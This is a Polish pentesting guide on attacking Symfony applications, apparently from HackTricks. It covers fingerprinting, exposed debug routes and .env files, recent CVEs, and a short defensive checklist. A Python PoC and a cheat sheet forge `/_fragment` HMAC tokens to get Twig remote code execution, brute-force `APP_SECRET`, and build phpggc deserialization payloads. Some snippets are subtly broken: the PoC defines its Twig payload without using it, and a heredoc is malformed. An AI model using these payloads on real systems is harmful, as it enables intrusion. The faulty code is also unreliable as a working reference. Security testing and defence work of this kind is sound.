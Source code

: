 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony jest jednym z najczęściej używanych frameworków PHP i regularnie pojawia się w ocenach celów przedsiębiorstw, e-commerce i CMS (Drupal, Shopware, Ibexa, OroCRM … wszystkie zawierają komponenty Symfony). Ta strona zbiera ofensywne wskazówki, powszechne błędy konfiguracyjne i ostatnie luki, które powinny znaleźć się na twojej liście kontrolnej, gdy odkryjesz aplikację Symfony.

> Uwaga historyczna: Duża część ekosystemu nadal działa na gałęzi **5.4 LTS** (EOL **listopad 2025**). Zawsze weryfikuj dokładną wersję minor, ponieważ wiele poradników dotyczących bezpieczeństwa z lat 2023-2025 naprawiono tylko w wydaniach poprawek (np. 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* Nagłówki odpowiedzi HTTP: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` lub ciasteczka zaczynające się od `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Wycieki kodu źródłowego (`composer.json`, `composer.lock`, `/vendor/…`) często ujawniają dokładną wersję:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Publiczne trasy, które istnieją tylko w Symfony:
* `/_profiler`   (Symfony **Profiler** & debug toolbar)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (ładne strony błędów)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (pre-4.0 dev front-controllers)
* Wappalyzer, BuiltWith lub listy słów ffuf/feroxbuster: `symfony.txt` → szukaj `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Interesujące pliki i punkty końcowe
| Ścieżka | Dlaczego to ważne |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Często źle wdrożone → wycieki `APP_SECRET`, dane DB, SMTP, klucze AWS |
| `/.git`, `.svn`, `.hg` | Ujawnienie źródła → dane uwierzytelniające + logika biznesowa |
| `/var/log/*.log`, `/log/dev.log` | Błędna konfiguracja web-root ujawnia stack-traces |
| `/_profiler` | Pełna historia żądań, konfiguracja, kontener usług, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Punkt wejścia używany przez ESI/HInclude. Możliwość nadużycia, gdy znasz `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | PHPUnit RCE, jeśli dostępne (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & czasami wyciek śladów wyjątków |

---

## Wysokiego wpływu luki (2023-2025)

### 1. Ujawnienie APP_SECRET ➜ RCE przez `/_fragment` (znane jako “secret-fragment”)
* **CVE-2019-18889** pierwotnie, ale *nadal* pojawia się na nowoczesnych celach, gdy debug jest włączony lub `.env` jest ujawnione.
* Gdy znasz 32-znakowy `APP_SECRET`, stwórz token HMAC i nadużyj wewnętrznego kontrolera `render()`, aby wykonać dowolny Twig:
```python
# PoC – wymaga sekretu
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # RCE w Twig
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Doskonały artykuł i skrypt do eksploatacji: blog Ambionics (link w Referencjach).

### 2. Windows Process Hijack – CVE-2024-51736
* Komponent `Process` przeszukiwał bieżący katalog roboczy **przed** `PATH` w systemie Windows. Atakujący, który może przesłać `tar.exe`, `cmd.exe` itp. do zapisywalnego web-root i wywołać `Process` (np. ekstrakcja plików, generowanie PDF) zyskuje możliwość wykonania poleceń.
* Naprawione w 5.4.50, 6.4.14, 7.1.7.

### 3. Session-Fixation – CVE-2023-46733
* Guard uwierzytelniający ponownie używał istniejącego identyfikatora sesji po zalogowaniu. Jeśli atakujący ustawi ciasteczko **przed** uwierzytelnieniem ofiary, przejmuje konto po zalogowaniu.

### 4. Twig sandbox XSS – CVE-2023-46734
* W aplikacjach, które ujawniają szablony kontrolowane przez użytkowników (admin CMS, kreator e-maili), filtr `nl2br` mógł być nadużyty do obejścia sandboxa i wstrzyknięcia JS.

### 5. Symfony 1 gadget chains (nadal znalezione w aplikacjach legacy)
* `phpggc symfony/1 system id` produkuje ładunek Phar, który wywołuje RCE, gdy następuje unserialize() na klasach takich jak `sfNamespacedParameterHolder`. Sprawdź punkty końcowe przesyłania plików i opakowania `phar://`.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Arkusz oszustw eksploatacyjnych

### Oblicz token HMAC dla `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Bruteforce słabego `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE poprzez wystawiony Symfony Console
Jeśli `bin/console` jest dostępny przez `php-fpm` lub bezpośredni upload CLI:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Użyj gadżetów deserializacji w katalogu pamięci podręcznej lub napisz złośliwy szablon Twig, który zostanie wykonany przy następnym żądaniu.

---

## Uwagi defensywne
1. **Nigdy nie wdrażaj debugowania** (`APP_ENV=dev`, `APP_DEBUG=1`) na produkcji; zablokuj `/app_dev.php`, `/_profiler`, `/_wdt` w konfiguracji serwera webowego.
2. Przechowuj sekrety w zmiennych środowiskowych lub `vault/secrets.local.php`, *nigdy* w plikach dostępnych przez katalog główny dokumentów.
3. Wymuszaj zarządzanie łatkami – subskrybuj powiadomienia o bezpieczeństwie Symfony i utrzymuj przynajmniej poziom łatki LTS.
4. Jeśli działasz na Windows, natychmiast zaktualizuj, aby złagodzić CVE-2024-51736 lub dodaj obronę w głębokości `open_basedir`/`disable_functions`.

---

### Przydatne narzędzia ofensywne
* **ambionics/symfony-exploits** – zdalne wykonanie kodu z fragmentem sekretnym, odkrywanie tras debugera.
* **phpggc** – gotowe łańcuchy gadżetów dla Symfony 1 i 2.
* **sf-encoder** – mały pomocnik do obliczania HMAC `_fragment` (implementacja w Go).

## Odniesienia
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
